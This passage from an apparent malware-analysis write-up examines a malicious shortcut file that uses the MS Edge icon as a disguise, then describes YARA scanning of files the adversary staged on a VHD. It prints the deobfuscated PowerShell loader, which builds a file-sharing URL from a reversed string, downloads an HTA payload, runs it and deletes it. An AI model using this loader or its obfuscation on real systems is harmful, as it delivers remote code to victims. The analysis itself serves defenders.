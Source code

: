 ```console
Icon File Name                  : C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
```

The lnk file launches `powershell.exe` with additional command line arguments to download and execute arbitrary code. In addition, it uses the icon of MS Edge to masquerade as a legitimate web page or something similar. After deobfuscation, the code looks like this:

```powershell
function MkZib($QaDpU) 
{
    $QaDpU[$QaDpU.Length..0] -join('')
};

function fYPTozHjY($QaDpU) 
{
    $etoYGh = MkZib $QaDpU;
    for($EUMmeaFBf = 0;$EUMmeaFBf -lt $etoYGh.Length;$EUMmeaFBf += 2) {
        try 
        {
            $bfMIiw += MkZib $etoYGh.Substring($EUMmeaFBf,2)
        }
        catch 
        {
            $bfMIiw += $etoYGh.Substring($EUMmeaFBf,1)
        }
    };
    $bfMIiw
};

$iEiSgWkq = fYPTozHjY 'ahtb./rUCsFMYt/geh/.sersfantr//s:tpht';

# hxxps://transfer[.]sh/get/MYsFUC/rb.hta

$wmrri = $env:APPDATA + '\' + ($iEiSgWkq -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$DLbhY = wget $iEiSgWkq -UseBasicParsing;
[IO.File]::WriteAllText($wmrri, $DLbhY);
& $wmrri;
sleep 3;
rm $wmrri;
```

That payload downloads a HTA file to disk and then launches it using `mshta.exe`, fairly straightforward. Now, back to the additional VHD goodness.

## What Else is There?

Let's take a quick look and see what else this adversary staged on their mounted VHD in days past. Not all of the files are completely present, some of them definitely aren't complete, but some may have enough content we can explore using tools like YARA. To do this, I'm using the [signature-base](https://github.com/Neo23x0/signature-base) repo's YARA rules on GitHub. First, I cloned the repo, deleting any YARA signatures that use external variables and will cause errors. Then I concatenated all the YARA rules into a single rule file which I can use to scan the `$RECYCLE.BIN` folder.
